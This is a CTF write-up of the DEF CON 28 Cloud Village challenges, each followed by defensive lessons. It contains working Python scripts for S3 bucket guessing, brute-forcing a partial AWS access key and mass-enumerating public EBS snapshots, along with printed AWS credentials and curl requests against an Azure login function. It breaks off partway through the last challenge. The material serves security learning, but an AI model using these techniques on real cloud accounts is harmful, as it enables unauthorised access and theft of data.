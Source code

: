 DEF CON 28 Cloud Village CTF write up
#####################################
:date: 2020-08-10
:author: tvd
:category: ctf
:tags: ctf, security, defcon
:slug: defcon28-cloud-village-ctf-writeup

This past weekend was `DEF CON 28 <https://defcon.org>`_, with safe mode. The `Cloud Village <https://cloud-village.org/>`_ was back for its second year, and another CTF!

Last year I came in first only solving 4 out of the 11 challenges, and this year I was excited to participate again with the `CTF_Circle team <https://twitter.com/CTF_Circle>`_! I was the only one that ended up working on the Cloud Village CTF—our team competed across many of the DEF CON village CTFs this year. `I finished second <https://twitter.com/CTF_Circle/status/1292856176351346688>`_, solving 8 out of the 11 challenges!

This post walks through all 11 challenges. I got help from the winning team—attackercommunity—after the challenge on two of them. The final one was not solved by any team. One of the organizers helped us get started after the CTF ended.

Play this first (10 points)
---------------------------
This was a gimme challenge to ensure people were registered, understood the format of the flags, and likely to give the organizers an idea of how many of the registered teams actually were attempting the challenges. The flag was in the description: ``FLAG-{NyxfmuEvJQ5tMlMKuZNLdEzPnXuyKh9F}``.

Commitment Issues (100 points)
------------------------------

    Bob was tasked to create a repo containing code in as many languages as she could that would print the obligatory "Hello World". Bob created the code as she was instructed, however, hiis repo was forked by Alice who ended up adding the location of the flag for this level in the code.

    Can you find and report the flag, so that we can confirm it's really out there and we are not imagining things?

    To get started, you might want to look at Bob's repo. Bob's username is cloudisgod (corny as it is, it describes his sentiment as well)!

There was a github user with this username, and they had three repos. Two of them had hello world programs in a bunch of languages. These repos were forked by the ctfevents user, and that user had made some changes in both repos. Here is the concise list of urls to visit for the challenge.

* https://github.com/cloudisgod
* https://github.com/cloudIsgod/ctfgoals
* https://github.com/ctfevents/ctfgoals
* https://github.com/ctfevents/ctfgoals/commit/cc33bb8daf29865c6033badd75ea8cf7477588a8
* https://github.com/ctfevents/ctfgoals/commit/c7f0202ccdd3a5ffd5f8f8f6b4dfb760b21ac2cc

.. image:: /images/dc28-cloud-ctf-commit-issues.png
    :align: center

I spent some time attempting to see if that invalid aws key could be converted to something useful... turns out that was a `red herring <https://en.wikipedia.org/wiki/Red_herring>`_. The ``secret`` value base64 decodes into a azure storage blob url:

::

    $ echo 'aHR0cHM6Ly93aGF0aXNpbnRoaXNibG9iLmJsb2IuY29yZS53aW5kb3dzLm5ldC9vaGl0c3RoZWZsYWcv' | base64 -d
    https://whatisinthisblob.blob.core.windows.net/ohitstheflag/

Copying that directory locally is possible, and results in a file that contains the flag!

::

    $ azcopy copy https://whatisinthisblob.blob.core.windows.net/ohitstheflag/* .
    $ cat weird-name-for-a-flag-file.txt
    FLAG-{U2NyZXdJdExldCdzZG9JdEAxMDBwb2ludHM=}

Lessons
~~~~~~~
* Git history is forever, and if public for long enough, will be archived.
* Base64 keeps no secrets.
* Public cloud storage is not a place for sensitive information.

Who is this food for? (150 points)
----------------------------------

    The Jumping Sparrow annual food festival is here. The website is ready and saved on AWS S3 as a backup. The admin, our very own Agent K of Humans in Black has purchased a domain where the site will be hosted.

    Alas, the admin seems to have lost his way home last night and is not reachable on his transponder as well! Can you help us find the FLAG so that we can remotely hijack his transponder and see where he is?

    You may start looking at AWS S3 to find the website first, that might give you a clue.

    Oh, Agent K is nefarious for using easy to guess names for his storage, like we found him storing his mother's recipes in S3 buckets called "recipe-galaxynuts" and "ruminfused-galaxynuts" which later ended up on his personal blog of galaxynuts.com anyways.

    Given his logic of naming things, the name of the storage we are looking for should be "something-jumpingsparrow". Good luck with your hunt!

The description here ended up being mostly misdirection. I don't know if there actually was an S3 bucket—I spent several hours running a program that checked for lots of permutations of food related words as the prefix for "<prefix>-jumpingsparrow". I also looked for all kind of men in black foods, agent K foods, spaceballs foods, etc. I searched https://buckets.grayhatwarfare.com/. I found no buckets. This was the program I used to check for buckets, though, for what that's worth:

.. code-block:: python

    import click
    import inflect
    import re
    import requests
    import string


    @click.command()
    @click.argument('wordlist', type=click.File())
    def cli(wordlist):
        s = requests.Session()
        ieng = inflect.engine()
        words_raw = wordlist.read()

        words = [w.strip().lower() for w in words_raw.splitlines()]
        singular = [ieng.singular_noun(w) for w in words if ieng.singular_noun(w) is not False]
        all_words = []
        r = re.compile(f'[^{string.ascii_lowercase}]')
        for w in singular + words:
            all_words.append(r.sub('', w))

        suffix = 'jumpingsparrow'
        possibles = []
        with click.progressbar(all_words) as pb:
            for w in pb:
                bucket_name = f'{w}-{suffix}'
                resp = s.head(f'http://{bucket_name}.s3.amazonaws.com')
                if resp.status_code != 404:
                    print(f'SUCCESS: possible bucket name: {bucket_name}')
                    possibles.append(bucket_name)
        for p in possibles:
            print(f'SUCCESS: possible bucket name: {p}')


    if __name__ == '__main__':
        cli()


This flag was actually found via WHOIS record.::

    $ whois jumpingsparrow.co | grep FLAG
    Registrant State/Province: FLAG-{WsWnYSnvFbak0dE2mfUjLr12ELdmUbSo}

Lessons
~~~~~~~
* WHOIS records are a useful source of OSINT.
* CTFs sometimes use misdirection in their challenge prompts.

What name do I cling on? (150 points) - Unsolved during CTF
-----------------------------------------------------------

**Note:** *I did not solve this challenge during the CTF, and neither did any other team. As far as we can tell, none of the teams figured out there was a backup.zip file to download. One of the organizers gave us a big hint after the CTF ended that enabled us to find the backup.zip.*

    Rose DeWitt Bukater is super tech savy for her age, at just over 112 years old, she is the oldest AWS administrator in her county. But old age has its perils. One of them being the inability to grasp new knowledge as quickly as she did when she was aboard the RMS Titanic.

    Configuration goof ups have become a weekly thing now with her. Like the domain configuration she has in place for her backup buckets. Or the MongoDB server she manages.

    I mean, look at the MongoDB backup she has made at http://snapshot.cloudvillagectf.co/secondary-snapshots/, clearly missing out on utilizing AWS' cool features to export the database and instead ending up with a giant blob. Jack can't seem to make head nor tail of it either and does not believe this is the actual backup. He believes there has to be a proper backup somewhere in that bucket (like the Heart of the Ocean)!

    There is no plank of wood to save Jack this time! Can you help him find the actual backup and use the information in there to find the flag for this level please? Before he sinks again!

Querying the DNS for the url in the challenge prompt shows that this is in S3 and in the us-west-1 region.

::

    $ dig snapshot.cloudvillagectf.co +short
    snapshot.cloudvillagectf.co.s3.amazonaws.com.
    s3-us-west-1-w.amazonaws.com.
    52.219.116.82

Requsting the full url from the prompt returns an AccessDenied response: http://snapshot.cloudvillagectf.co/secondary-snapshots/. If there is a secondary, there could be a primary snapshot, but that gave the same response. http://snapshot.cloudvillagectf.co/primary-snapshots/

I tried enumerating both those prefixes with `dirsearch <https://github.com/maurosoria/dirsearch>`_ to no avail. I guess that didn't try requesting backup.zip. :-(

After the CTF with the hint, I was able to get the backups (both primary and secondary). The primary had three dbs, each with one or more collections, and several of them had 10k ish items. The production db had one item that was not like the others—it had an AWS access key id and secret key. This is how I restored the mongodb and found the anomalous key on my mac.

::

    $ brew tap mongodb/brew
    $ brew install mongodb-community mongodb-database-tools
    $ brew services start mongodb-community

    $ mkdir -pv unpack
    $ cd unpack
    $ curl -vs 'http://snapshot.cloudvillagectf.co/primary-snapshots/backup.zip' -o primary_backup.zip
    $ unzip primary_backup.zip
    $ ls backup/
    admin           production      test

    $ mongorestore backup
    2020-08-09T16:30:30.311-0700    preparing collections to restore from
    2020-08-09T16:30:30.312-0700    reading metadata for production.config from backup/production/config.metadata.json
    2020-08-09T16:30:30.312-0700    reading metadata for test.testData1 from backup/test/testData1.metadata.json
    2020-08-09T16:30:30.312-0700    reading metadata for test.testData from backup/test/testData.metadata.json
    2020-08-09T16:30:30.349-0700    restoring test.testData1 from backup/test/testData1.bson
    2020-08-09T16:30:30.363-0700    restoring test.testData from backup/test/testData.bson
    2020-08-09T16:30:30.374-0700    no indexes to restore
    2020-08-09T16:30:30.374-0700    finished restoring test.testData (1000 documents, 0 failures)
    2020-08-09T16:30:30.381-0700    restoring production.config from backup/production/config.bson
    2020-08-09T16:30:30.441-0700    no indexes to restore
    2020-08-09T16:30:30.441-0700    finished restoring test.testData1 (10000 documents, 0 failures)
    2020-08-09T16:30:30.470-0700    no indexes to restore
    2020-08-09T16:30:30.470-0700    finished restoring production.config (10001 documents, 0 failures)
    2020-08-09T16:30:30.470-0700    21001 document(s) restored successfully. 0 document(s) failed to restore.

    $ mongo
    > use production
    > db.getCollectionNames()
    [ "config" ]

    > db.config.find()
    { "_id" : ObjectId("5f26c8677ae6e26bd1fe89eb"), "config" : "All config data" }
    ...

    > db.config.find({"config": {$not: /All config data/}})
    { "_id" : ObjectId("5f26d3fed615c40a916ecd69"), "config" : "AKIAVTXFIGND7WF7HPGM", "secret" : "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" }

I set that access key as the ``dc28-cloud-cling-on`` `aws cli profile <https://docs.aws.amazon.com/cli/latest/userguide/cli-configure-quickstart.html#cli-configure-quickstart-profiles>`_. Then after trying to list s3 buckets, other objects in the buckets above, rds instance, running `scoutsuite <https://github.com/nccgroup/ScoutSuite>`_, I eventually queried Route 53 hosted zones. There was one! Inside it was a CNAME for the snapshot.cloudvillagectf.co flag with the flag!

::

    $ aws --profile dc28-cloud-cling-on sts get-caller-identity 
    {
        "UserId": "AIDAVTXFIGNDZGOUSGFMG",
        "Account": "385954100039",
        "Arn": "arn:aws:iam::385954100039:user/domain-hypocrisy"
    }

    $ aws --profile dc28-cloud-cling-on route53 list-hosted-zones
    {
        "HostedZones": [
            {
                "Id": "/hostedzone/Z00275981I1V4H62850JU",
                "Name": "cloudvillagectf.co.",
                "CallerReference": "0b908c48-5966-4735-bbef-d0c0ab30445a",
                "Config": {
                    "Comment": "not needed",
                    "PrivateZone": true
                },
                "ResourceRecordSetCount": 3
            }
        ]
    }

    $ aws --profile dc28-cloud-cling-on route53 list-resource-record-sets --hosted-zone-id Z00275981I1V4H62850JU
    ...
            {
                "Name": "snapshot.cloudvillagectf.co.",
                "Type": "CNAME",
                "TTL": 300,
                "ResourceRecords": [
                    {
                        "Value": "FLAG-{42DDnVtppp2dhTATCLGwqoKrqrVSo5k2}"
                    }
                ]
            }
        ]
    }


Lessons
~~~~~~~
* Check for backup.zip when enumerating files.
* Don't store AWS access keys in a database. Put them in the environment or a secret manager, or better yet use IAM roles.
* Use the CSP provided backup tools when available. If you do need to create your own backup, make sure they are encrypted (ideally using something like KMS). Definitely don't use zip file encryption. Ever.

Where's the storage? (200 points)
---------------------------------

    Some people just like to watch the world burn. Like the chap who created this challenge.

    If you have what it takes, can you reach the flag by following the breadcrumbs?

    We have heard he is a big fan of AWS, so try your luck with S3 perhaps? Psst, he is obsessed with the name storehousepost as a weird fetish.

    Uh and look for the index page, the challenge creator is sadistic at best :)

There is an S3 bucket with that name in the ap-south-1 region, and it has an index.html. There is a note about a museum at the top, and then 1000+ lines down, there is a comment about bright blue cloudless skies, which I thought might point to Azure.

$ dig storehousepost.s3.amazonaws.com +short
s3-w.ap-south-1.amazonaws.com.
52.219.64.72

http://storehousepost.s3.amazonaws.com/index.html::

    Welcome to the museum of payloads and exploits

    We have all antique payloads and rare exploits across the globe
    ...
    <!--I like the bright blue cloudless skies-->

https://storehousepost.blob.core.windows.net/ seemed like it might exist, but I didn't find anything in there. I eventually started trying all the Digital Ocean Spaces (their version of S3), and found a bucket with that name in their Singapore region. https://storehousepost.sgp1.digitaloceanspaces.com/index.html Inside was another post about the museum, and a comment about nothing to see 1000+ lines at the bottom.

::

    Welcome to the third Museum

    This is infact our largest museum
    ...
    <!-- Nothing to see here, have you tried what remains? -->

Next I tried GCP and found a storage bucket there with an index.html file that had the flag! (I used the storage APIs to find the download url below.)

::

    $ curl -vs 'https://www.googleapis.com/download/storage/v1/b/storehousepost/o/index.html?generation=1596041548811660&alt=media' -o gcp_index.html
    $ tail -1 gcp_index.html 
    <!-- FLAG-{qJBcwlaqOgwqHX08Jf4Unk14zD9pclOX} -->

Lessons
~~~~~~~
* Exploring how a company uses various cloud providers, and their regions, can lead to some interesting finds and data leaks.
* For CTFs, or at least this one, enumerating all the cloud provider storage solutions is useful.

Fused!!! (200 points) - Unsolved during CTF
-------------------------------------------

    Headers can have interesting consequences on what the server returns. Malformed, misconfigured and unexpected headers can all lead to interesting things. See if you can reach our server that appears to have been misconfigured?

    How do we start you ask? Uh, fuzz for subdomains I think. That should get you somewhere.

There was a domain at http://fuzz.cloudvillagectf.co/ that used an S3 bucket. It had an index.html page with some thoughts from Alice in Wonderland, which linked to an index.css page, which added an image of an Alice in Wonderland and the White Rabbit going down the rabbit hole...

.. image:: /images/dc28-cloud-ctf-fused-rabbit.jpg
    :align: center

I was expecting to see some `S3 metadata headers <https://docs.aws.amazon.com/AmazonS3/latest/dev/UsingMetadata.html#object-metadata>`_ given the prompt, but there were not any user defined headers. I also thought there might be a Lambda @Edge function adding headers, but alas that wasn't the case since the DNS pointed directly to the S3 bucket and it would have needed to go through CloudFront in order to use Lambda @Edge.

That's as far as I got. After the CTF, the attackercommunity team revealed there was a GCP bucket with the fuzz-cloud name, and it had user defined metadata in the response. Base64 decoding that metadata revealed the flag.

::

    $ curl -vs 'https://storage.googleapis.com/fuzz-cloud/index.html' -o/dev/null
    < x-goog-meta-you-pwned-it: RkxBRy17YlZ1bVcwTHM5NWRXcGVTNGN4Znk1ZGVxQmY5T1ZrZHB9

    $ echo 'RkxBRy17YlZ1bVcwTHM5NWRXcGVTNGN4Znk1ZGVxQmY5T1ZrZHB9' | base64 -d
    FLAG-{bVumW0Ls95dWpeS4cxfy5deqBf9OVkdp}

Lessons
~~~~~~~
* Keep those cloud storage buckets private.
* If there is a need for public objects, ensure their metadata does not include sensitive information.
* For CTFs, and `red teaming <https://en.wikipedia.org/wiki/Red_team>`_ in general, make sure to enumerate different CSPs as well as variations on the core name.

The Broken User (200 points)
----------------------------

    Not all stories have a happy ending. Like the story of Bob who deleted one of our important backups by gaining access to an S3 bucket.

    We have setup an environment that attempts to mimic the steps the Bob may have possibly taken to hurt our finances while having access to partial credentials of one of our other users.

    See if you can get the flag by using the environment. You may start here

    http://rogueuser.cloudvillagectf.co/index.html

That page contained a partial AWS access key ID and a complete AWS secret access key.

::

    ...
    <p>Here's the partial ACCESS KEY to begin with.</p>
    <ul><strong>VTXFIGNDUZ3E</strong></ul>
    <ul><strong>psLn2FftAVZBPZQABNLbyHXMKK4b0bWkzsSk498+</strong></ul>
    ...

The html indicates that only the access key part is partial. AWS secret keys are 40 characters long, which that one is. AWS access key ids are 20 characters long and they always start with ``AKIA``. So we know that there are 4 other characters that go with the access key.

AWS access keys use the characters A-Z and 2-7. I did get a little side tracked by `Scott Piper's blog from 2018 <https://summitroute.com/blog/2018/06/20/aws_security_credential_formats/>`_, which indicates that the 5th character and last character were more constrained. That no longer seems to be the case; all characters after the AKIA prefix seem to be able to use the full range of A-Z2-7 values.


There are 32 (2^5) options for each character, and four characters to replace. That gives a little over a 1 million permutations (2^5^4) for four characters, assuming we know where the four characters go. To test each individual IAM access key combination, I used the `STS GetCallerIdentity API <https://docs.aws.amazon.com/STS/latest/APIReference/API_GetCallerIdentity.html>`_ using the `boto3 aws sdk <https://boto3.amazonaws.com/v1/documentation/api/latest/reference/services/sts.html#STS.Client.get_caller_identity>`_. I didn't rigorously test this API's response times; the handful of timed requests I made took about 500 milliseconds. If I tested all access key permutations sequentially, it would have taken a little over 145 hours to test all 1 million key permutations. The CTF only ran for 51 hours, so that was not feasible. I was able to concurrently test the access key permutations using 96 python processes, which reduced the time required to test the 1 million permutations to a little over 90 minutes.

I guessed that all four character went after the AKIA prefix first, which was not correct. After letting that run and discovering none of those worked, I then guessed that they all went at the end. (I was really hoping they were not split between the front and the back of the partial, or interspersed in the partial because that would dramatically increase the time required to brute force.) Fortunately, they were all at the end, and that revealed a working key. Here is the program I used to brute force.

.. code-block:: python


    import boto3
    import botocore.exceptions
    import click
    import itertools
    import multiprocessing
    import random
    import string


    @click.command()
    @click.option('--workers', default=96)
    def cli(workers: int):
        access_key_prefix = 'AKIA'
        access_key_part = 'VTXFIGNDUZ3E'

        print('Generating permutations...')
        # A-Z and 2-7
        valid_chars = list(string.ascii_uppercase + '234567')
        random.shuffle(valid_chars)

        perms = list(itertools.product(valid_chars, repeat=4))
        random.shuffle(perms)

        four_letter_perms = list([''.join(p) for p in perms])
        random.shuffle(four_letter_perms)

        # AKIA....VTXFIGNDUZ3E
        # all_access_keys = [f'{access_key_prefix}{four_letters}{access_key_part}' for four_letters in four_letter_perms]

        # take two!: AKIAVTXFIGNDUZ3E....
        all_access_keys = [f'{access_key_prefix}{access_key_part}{four_letters}' for four_letters in four_letter_perms]

        print('Starting to work...')
        with multiprocessing.Pool(workers) as pool:
            results = pool.map(check_one_access_key, all_access_keys)

        for r in results:
            if r[0]:
                print(f'Valid access key: {r[1]}')

    def check_one_access_key(access_key: str):
        # print(f'access_key {access_key}')
        secret_key = 'psLn2FftAVZBPZQABNLbyHXMKK4b0bWkzsSk498+'
        assert(len(access_key) == 20)
        assert(len(secret_key) == 40)
        sts = boto3.client('sts', aws_access_key_id=access_key, aws_secret_access_key=secret_key)
        try:
            resp = sts.get_caller_identity()
        except botocore.exceptions.ClientError as ex:
            return (False, access_key)
        print(f'Valid access key: {access_key}')
        return (True, access_key)


    if __name__ == '__main__':
        cli()

::

    $ python exploit_broken_user.py 
    Generating permutations...
    Starting to work...
    Valid access key: AKIAVTXFIGNDUZ3EEFMB

I set the now known access key and secret in a ``cd28-cloud-broken-user`` profile, and started exploring the S3 bucket, which revealed the flag!

::

    $ aws sts get-caller-identity --profile cd28-cloud-broken-user
    {
        "UserId": "AIDAVTXFIGNDQ7VIGBOFD",
        "Account": "385954100039",
        "Arn": "arn:aws:iam::385954100039:user/dragonmaster"
    }

    $ aws --profile cd28-cloud-broken-user s3 ls s3://rogueuser.cloudvillagectf.co/
                            PRE assets/
                            PRE images/
    2020-08-01 07:34:33        651 CREDITS.txt
    2020-08-01 07:34:33      17130 LICENSE.txt
    2020-08-01 07:34:33         39 flag.txt
    2020-08-01 07:34:33       1779 index.html

    $ aws --profile cd28-cloud-broken-user s3 cp s3://rogueuser.cloudvillagectf.co/flag.txt ./
    download: s3://rogueuser.cloudvillagectf.co/flag.txt to ./flag.txt

    $ cat flag.txt 
    FLAG-{jnLvAFcbxbHu9sIlF5us2pQVBrnrD1la}

Lessons
~~~~~~~
* I originally didn't think it would be possible to brute force the key—I thought more characters were valid. Doing the research on the format showed that the space was more constrained and reasonable to brute force on commodity hardware.
* Verify that blog posts are still accurate. I was originally excited to discover that the 5th and last characters in the AWS access key id only had two possible characters, because that reduced the search space considerably. I should have verified that first, though.
* Finally, when sharing a partial secret, carefully consider how much of a secret is being redacted, and what search space would need to be explored to brute force it. In this case, the AWS access key id is actually something that is generally not considered, on their own, to be highly sensitive. The secret part never should be shared (even in partial form), though.

Our passion. Your potential. (300 points) - Unsolved during CTF
---------------------------------------------------------------

    Dave is big fan of static sites. He has been planning to build a Work from Home themed site for his readers and is currently storing all his content on some cloud provider. There is also news on the wires that he is going to use some serverless code as well to run some dynamic code.

    We don't know what it is or where it is. All we have to get started is the domain that he purchased - supersecureapp.com

    Can you find his public site and reach the flag from there?

Querying the DNS shows that the domain points to an azure storage blob bucket. It took me quite a while to find the /public/ directory... the enumeration tools I was using didn't search for that, I guess. In the index.html there was a comment about another javascript file that was not added yet.

::

    $ dig supersecureapp.com +short
    lvl3storage.blob.core.windows.net.
    blob.blz21prdstr05a.store.core.windows.net.
    20.150.90.68

    $ curl -vs 'https://lvl3storage.blob.core.windows.net/public/index.html' -o index.html
    ...
    < HTTP/1.1 200 OK
    < Content-Length: 8214
    < Content-Type: text/html
    ...
    <!-- Removing reference as scripts.js works for now, will add data fetch after dev is completed. Login needs to be built so this is for the future.
            <script src="add-file-name-of-data-fetch-js-here"></script>
    ...

It was possible to copy the directory contents using azcopy, which showed a routesFetch.js file. Unfortunately, that file was obfuscated.

::

    $ azcopy copy https://lvl3storage.blob.core.windows.net/public/* . --recursive
    ...
    Number of Transfers Completed: 6
    ...
    TotalBytesTransferred: 741121

    $ tree .
    .
    ├── assets
    │   └── img
    │       ├── bg-masthead.jpg
    │       └── favicon.ico
    ├── css
    │   └── styles.css
    ├── index.html
    └── js
        ├── routesfetch.js
        └── scripts.js
    
    $ cat js/routesfetch.js 
    /* adding security by fetching routes from server instead of hardcoding them here like noob frontend devs */
    /* smart idea number 348 dated jun 12th 2020, work in progress */

    var a=['then','json','stringify','application/json;\x20charset=UTF-8','fromCharCode'];(function(b,e){var f=function(g){while(--g){b['push'](b['shift']());}};f(++e);}(a,0xda));var b=function(c,d){c=c-0x0;var e=a[c];return e;};var u=String[b('0x1')](0x68,0x74,0x74,0x70,0x73,0x3a,0x2f,0x2f,0x62,0x61,0x63,0x6b,0x65,0x6e,0x64,0x2d,0x75,0x73,0x65,0x72,0x62,0x61,0x73,0x65,0x2d,0x72,0x6f,0x75,0x74,0x65,0x73,0x2e,0x61,0x7a,0x75,0x72,0x65,0x77,0x65,0x62,0x73,0x69,0x74,0x65,0x73,0x2e,0x6e,0x65,0x74,0x2f,0x61,0x70,0x69,0x2f,0x6c,0x6f,0x67,0x69,0x6e),m=String[b('0x1')](0x50,0x4f,0x53,0x54);fetch(u,{'method':m,'body':JSON[b('0x4')]({'name':'','pass':''}),'headers':{'Content-type':b('0x0')}})[b('0x2')](c=>c[b('0x3')]());

I edited index.html locally to load the routesFetch.js script, opened it in chrome, and opened the chrome developer tools console and saw a CORS error showing that the script was making a POST request to an Azure function...

::

    Access to fetch at 'https://backend-userbase-routes.azurewebsites.net/api/login' from origin 'null' has been blocked by CORS policy: ....

The request that was geting blocked was a POST request to https://backend-userbase-routes.azurewebsites.net/api/login with request body ``{name: "", pass: ""}``. I got to this point in this challenge about 15 minutes before the end of the CTF. I tried some obvious username and password, but didn't figure out the correct combo. The attackercommunity team shared after the CTF that they brute forced the credentials, which were ``{"name":"azureuser","pass":"123456"}``. Making that request revealed an error about the command, which pointed to a helper. listmethods showed the available commands, and printuserenv showed the flag.

::

    $ curl -vs -X POST 'https://backend-userbase-routes.azurewebsites.net/api/login' -H 'Content-type: application/json' -d'{"name":"azureuser","pass":"123456"}'
    ...
    Missing command parameter. Try using 'listmethods' to see what is available.* Closing connection 0

    $ curl -vs -X POST 'https://backend-userbase-routes.azurewebsites.net/api/login' -H 'Content-type: application/json' -d'{"name":"azureuser","pass":"123456","cmd":"listmethods"}'
    {'params':['listmethods','gettoken','testconnection','printuserenv']}

    $ curl -vs -X POST 'https://backend-userbase-routes.azurewebsites.net/api/login' -H 'Content-type: application/json' -d'{"name":"azureuser","pass":"123456","cmd": "printuserenv"}'
    {'flag':'FLAG-{QZaH504CJKNWO0uVmvHqD0V0XmDxGPVY}'}

Lessons
~~~~~~~
* Don't leave development comments in the source or deploy partial work.
* Use better passwords.
* Obfuscated javascript, while it can be helpful, doesn't prevent someone from easily observing the behavior (especially any network access).

It's Elementary Watson! (500 points)
------------------------------------

    Sherlock Holmes is finally moving to the cloud! Yes you heard that right, he has been practicing storing of his case files in AWS RDS. He thinks he is a bit of 'noob' anyways and keeps making mistakes like leaving his RDS open to the world.

    We have a weird request though from you, Sherlock seems to have gone underground for another case and we need access to the AWS RDS that he uses. All we know is that he has taken a snapshot of the EC2 instance he was using to setup his website and moved the snapshot to a non American AWS region.

    Can you get us access to the AWS RDS and send us the flag please? We will take over the investigation from there.

AMIs and EBS snapshots can be publicly shared, which has been reported more widely in the last year or so as people have found sensitive info in these shared images. `Duo Labs did an analysis of how many of these were available back in 2018 <https://duo.com/blog/beyond-s3-exposed-resources-on-aws>`_. There are a l ot. I wrote a script to download all the non-US region AMIs and EBS snapshots.

.. code-block:: python

    import boto3
    import click
    import csv
    import json

    @click.command()
    @click.option('--skip-amis/--no-skip-amis', default=True)
    def cli(skip_amis):
        s = boto3.Session()

        regions = [
            "eu-west-2",
            "eu-north-1",
            "ap-south-1",
            "eu-west-3",
            "eu-west-1",
            "ap-northeast-2",
            "ap-northeast-1",
            "sa-east-1",
            "ca-central-1",
            "ap-southeast-1",
            "ap-southeast-2",
            "eu-central-1",
            # "us-east-1",
            # "us-east-2",
            # "us-west-1",
            # "us-west-2",
        ]

        ami_outfile = 'amis.njson'
        snapshot_outfile = 'snapshots.njson'
        with open(snapshot_outfile, 'wb') as snap_fp, open(ami_outfile, 'wb') as ami_fp:
            for region in regions:
                print(f'working on region: {region}')
                ec2 = s.client('ec2', region_name=region)

                snapshots_pages = ec2.get_paginator('describe_snapshots')
                snap_count = 0
                for snapshots in snapshots_pages.paginate():
                    snap_count += len(snapshots['Snapshots'])
                    for snap in snapshots['Snapshots']:
                        snap['StartTime'] = snap['StartTime'].isoformat()
                        snap['__region'] = region
                        snap_fp.write(bytes(json.dumps(snap), 'utf8'))
                        snap_fp.write(b'\n')
                        snap_fp.flush()
                print(f'Retrieved {snap_count} snapshots; wrote to {snapshot_outfile}')

                if not skip_amis:
                    images = ec2.describe_images(
                        ExecutableUsers=['all'],
                        Filters=[{
                            'Name': 'is-public',
                            'Values': ['true']
                        }]
                    )
                    print(f'Retrieved {len(images["Images"])} images; writing to {ami_outfile}')
                    for img in images['Images']:
                        img['__region'] = region
                        ami_fp.write(bytes(json.dumps(img), 'utf8'))
                        ami_fp.write(b'\n')
                        ami_fp.flush()


    if __name__ == '__main__':
        cli()

Once that was done, grepping for sherlock revealed a public ``sherlockholmes-secrets`` EBS snapshot in the ap-southeast-1 region. I copied that EBS snapshot into my own account.

::

    $ python exploit_watson.py
    $ cat snapshots.njson | grep -i sherlock
    {"Description": "sherlockholmes-secrets", "Encrypted": false, "OwnerId": "385954100039", "Progress": "100%", "SnapshotId": "snap-0bddf547184e05905", "StartTime": "2020-08-02T10:33:07.930000+00:00", "State": "completed", "VolumeId": "vol-ffffffff", "VolumeSize": 8, "__region": "ap-southeast-1"}

    $ aws --region ap-southeast-1 ec2 copy-snapshot --description 'dc28-sherlockholmes-secrets2' --destination-region us-west-2 --source-region ap-southeast-1 --source-snapshot-id snap-0bddf547184e05905

